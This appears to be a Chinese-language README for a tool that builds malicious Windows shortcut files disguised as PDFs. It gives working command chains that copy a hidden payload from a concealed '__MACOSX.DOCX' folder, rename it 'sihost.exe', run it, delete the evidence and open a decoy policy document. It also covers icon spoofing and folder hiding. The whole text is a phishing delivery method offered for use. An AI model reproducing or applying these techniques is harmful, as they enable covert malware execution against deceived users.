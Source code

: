 
### 1.快捷方式生成
参考 www.x86matthew.com 的项目，原文链接已删除。 
2023年7月份改的代码，主要配合bat/vbs脚本调用，图标替换通过010editor进行修改，之前本想将其写成个 操作友好的工具，但由于部分原因没弄成.

test处可伪装成正常打开pdf时显示的内容（类型、大小、修改日期）

```
linkgen.exe calc.pdf.lnk "test" "xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk" & del /F /A /Q "%cd%__MACOSX.DOCX\wct366A.tmp" & copy "%cd%__MACOSX.DOCX\电子商务产业发展扶持奖励政策.pdf" "%cd%\XXX电子商务产业发展扶持奖励政策.pdf" & start "" "%cd%\XXX电子商务产业发展扶持奖励政策.pdf" & del "%cd%__MACOSX.DOCX\XXX电子商务产业发展扶持奖励政策.pdf" "
```

### 2.图标处理
参考 https://www.cnblogs.com/f-carey/p/16542156.html#tid-sywapk 
<img width="910" alt="image" src="https://github.com/user-attachments/assets/1372ea03-f5ee-4e01-ba5b-d83d7ab8424d">

### 3.bat脚本
```
xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk"  &  del /F /A /Q %cd%__MACOSX.DOCX\calc.tmp
```

### 4.文件夹隐藏
打开隐藏后效果如下，正常情况默认隐藏 .__MACOSX 文件夹

<img width="1424" alt="image" src="https://github.com/user-attachments/assets/8e49da65-02ff-471b-a17b-b04cff7187ea">
